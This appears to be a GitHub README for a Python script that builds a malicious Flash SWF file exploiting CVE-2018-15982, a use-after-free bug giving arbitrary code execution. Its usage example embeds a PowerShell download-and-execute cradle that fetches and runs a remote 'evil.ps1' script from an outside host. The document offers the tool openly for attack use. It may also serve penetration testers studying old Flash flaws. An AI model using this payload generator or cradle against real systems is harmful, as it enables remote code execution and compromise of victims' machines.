 # Adobe Flash CVE-2018-15982

Script to dynamically create swf payload.  

The script creates a swf payload which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability  is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found here.
https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/


Usage:
```python create_swf.py <command> <output file name>```
  
Example:
```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.0.32/evil.ps1')" test.swf```
